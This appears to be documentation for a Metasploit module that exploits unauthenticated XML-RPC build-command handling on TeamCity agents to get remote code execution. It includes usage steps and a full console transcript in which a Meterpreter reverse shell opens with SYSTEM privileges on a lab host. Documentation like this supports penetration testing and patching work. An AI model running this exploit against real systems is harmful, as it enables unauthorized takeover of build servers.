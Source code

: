 ## Description

This module allows remote code execution on TeamCity Agents configured to use bidirectional communication via xml-rpc. In bidirectional mode the TeamCity server pushes build commands to the Build Agents over port TCP/9090 without requiring authentication. Up until version 10 this was the default configuration. This module supports TeamCity agents from version 6.0 onwards.

## Vulnerable Application

This module has been tested successfully with the following TeamCity Agent versions

* TeamCity 6.0
* TeamCity 6.5
* TeamCity 7.0
* TeamCity 8.0
* TeamCity 9.0
* TeamCity 10.0
* TeamCity 2017
* TeamCity 2018

## Verification Steps

1. `msfconsole`
2. `use exploit/multi/misc/teamcity_agent_xmlrpc_exec`
3. `set RHOSTS <rhost>`
4. `set payload <payload>`
5. `run`

## Options

**RPORT**

Which port the TeamCity Agent is listening on (default: 9090)

**CMD**

If specified the module will run the specified command instead of executing the payload

## Scenarios

### Windows Server 2012 R2 (x64) with TeamCity Agent 2018.1

```
msf5 > use exploit/multi/misc/teamcity_agent_xmlrpc_exec 
msf5 exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set RHOSTS 172.16.198.149
RHOSTS => 172.16.198.149
msf5 exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set LHOST eth0
LHOST => eth0
msf5 exploit(multi/misc/teamcity_agent_xmlrpc_exec) > run

[*] Started reverse TCP handler on 172.16.198.150:4444 
[*] Found TeamCity Agent running build version 58245
[*] Constructing Windows payload
[*] Found compatible build config for TeamCity build 58245
[*] Successfully sent build configuration
[*] Sending stage (179779 bytes) to 172.16.198.149
[*] Meterpreter session 1 opened (172.16.198.150:4444 -> 172.16.198.149:49178) at 2018-10-03 17:21:12 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```